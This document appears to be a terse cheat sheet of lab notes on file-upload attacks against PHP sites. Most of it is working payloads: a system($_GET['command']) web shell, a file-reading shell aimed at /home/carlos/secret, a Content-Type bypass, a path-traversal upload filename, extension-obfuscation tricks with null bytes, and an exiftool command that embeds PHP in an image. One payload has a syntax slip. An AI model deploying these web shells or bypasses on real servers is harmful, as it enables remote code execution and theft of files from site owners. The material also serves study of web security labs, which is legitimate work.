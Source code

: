 ## PHP sites

```php
<?php echo file_get_contents('/path/to/target/file'); ?> // read files from server's filesystem
```

```php
<?php echo system($_GET['command']); ?>
```

-execute this command by `GET /example/exploit.php?command=id HTTP/1.1`

### 1. Remote code execution via web shell upload

```php
<?php echo file_get_contents('home/carlos/secret'); >
```

`GET /files/avatars/exploit.php`

### 2. Content-Type restriction bypass

- change `Content-Type: image/png` in POST request

### 3. Web shell upload via path traversal

- change the file upload path (one directory above) by
  `Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php`

### 4. Web shell upload via obfuscated file extension

- exploit.pHp
- exploit.php.jpg
- exploit%2ephp
- exploit.php%00.jpg
- exploit.asp;.jpg , exploit.asp%00.jpg
-

### 5. Web shell with polygoat

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" your_image.png -o polygoat.php
```

